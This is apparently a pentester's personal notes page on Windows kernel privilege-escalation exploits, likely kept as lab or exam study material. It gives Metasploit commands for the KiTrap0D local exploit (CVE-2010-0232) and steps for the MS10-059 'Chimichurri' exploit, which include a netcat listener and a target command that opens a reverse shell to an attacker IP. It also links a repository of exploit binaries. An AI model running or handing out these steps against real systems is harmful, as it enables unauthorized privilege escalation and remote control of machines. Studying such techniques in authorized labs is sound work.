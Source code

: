-- -
Exploits run against the kernel.
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
#### CVE-2010-0232
#cve-2010-0232 [Disclosure](https://seclists.org/fulldisclosure/2010/Jan/341)
Affects older versions of Windows:
- Windows 2000
- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
```bash
# from meterpreter shell
bg # or background or ctrl+z
use exploit/windows/local/ms10_015_kitrap0d
set session <session id> 
set lhost tun0 # or attack ip
set lport 5555 # irrelevant what you set to
run
```
#### MS10-059 - Chimichurri
#ms10-059 #chimichurri
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
[Exploit Executable](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)
Get executable in above link or from a google search and [[Dark Arts I/File Transfer/Windows|File Transfer]] it over to the target. 
**Attack Box**
```bash
# setup listener
nc -nvlp <port number> 
```
**Target**
```powershell
# in this example, I saved the exploit binary as "ms.exe", name can be whatever you name it. 
ms.exe <attack ip> <attack port> 
ms.exe 10.10.10.14 7777

# should produce a shell on you listener.
```
#### Resources
- [Repo of Exploits](https://github.com/SecWiki/windows-kernel-exploits)